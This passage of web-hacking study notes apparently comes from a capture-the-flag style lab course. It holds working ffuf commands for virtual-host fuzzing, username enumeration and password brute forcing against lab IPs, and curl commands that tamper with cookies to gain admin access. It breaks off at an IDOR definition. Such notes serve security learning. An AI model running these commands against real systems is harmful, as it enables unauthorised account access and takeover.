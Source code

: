 * Virtual hosts - as some subdomains are not always hosted in public DNS results and are instead stored in private DNS server or in developer's machines in '/etc/hosts' file, we can use the Host header when accessing websites and modify it. This process can be automated too.

  ```shell
  ffuf -w /usr/share/wordlists/dnsnamelist.txt -H "Host:FUZZ.acmeitsupport.thm" -u http://10.10.3.35 -fs {size} #replace {size} with any page size
  #-H flag is used for header
  #-fs is used for filtering output by page size
  ```

### Authentication Bypass

* Username enumeration -

  ```shell
  #a list of valid usernames can be created on basis of error message
  ffuf -w /usr/share/wordlists/names.txt -X POST -d "username=FUZZ&email=x&password=x" -H "Content-Type:application/x-www-form-urlencoded" -u http://10.10.131.237/customers/signup -mr "username already exists"
  #-X specifies request method
  #-d is for data that we will send
  #-H is for extra headers added to request
  #-mr is the text or error we are looking for a valid username
  ```

* Brute force -

  ```shell
  #we can use valid usernames to brute force login pages
  ffuf -w valid_usernames.txt:W1, /usr/share/wordlists/passwords.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.131.237/customers/login -fc 200
  #multiple wordlists, so instead of using FUZZ we have to use custom terms
  #-fc is used for status code other than 200, for positive match
  ```

* Logic flaw - typical logical path of app is bypassed, circumvented or manipulated.

* Cookie tampering - For plaintext cookies, we can simply modify cookies. For hashed cookies, however, we have to use resources such as <https://crackstation.net/>. If the cookies are encoded using base32 or base64, we can simply decode, modify and encode the cookie string to bypass login.

  ```shell
  curl http://10.10.131.237/cookie-test #returns message 'Not Logged In'

  curl -H "Cookie: logged_in=true;admin=false" http://10.10.131.237/cookie-test #logged in

  curl -H "Cookie: logged_in=true;admin=true" http://10.10.131.237/cookie-test #logged in as Admin
  ```

### IDOR

* IDOR (Insecure Direct Object Reference) - a type of access control vulnerability; occurs when a web server receives user input to retrieve objects without validation on server-side to confirm the requested object belongs to the one requesting it. Examples include:
